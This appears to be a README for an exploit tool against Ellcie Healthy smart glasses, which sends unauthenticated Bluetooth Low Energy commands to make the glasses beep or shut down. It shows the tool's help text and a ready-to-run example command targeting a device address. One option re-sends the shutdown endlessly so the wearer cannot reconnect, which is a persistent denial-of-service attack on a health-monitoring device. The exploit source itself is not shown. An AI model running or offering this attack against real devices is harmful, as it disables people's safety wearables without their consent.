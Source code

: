 # Ellcie Healthy glasses : Remote Command Execution
usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}
                          [--init {1,0}] [--keepsending {1,0}]

Ellcie-Healthy glasses - Remote Command Execution

optional arguments:
  -h, --help            show this help message and exit
  --address ADDRESS     Glasses BLE addresses
  --action {BEEP,SHUTDOWN}
                        Action to be executed
  --init {1,0}          Should the script activate bluetooth
  --keepsending {1,0}   Should we keep sending the request ? Doing so will
                        constantly send the action. That means for example if
                        you jam the device and send the shutdown request, the
                        user won't be able to reconnect again, as the device
                        with again and again shutdown.


### Exemple 
python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN -h
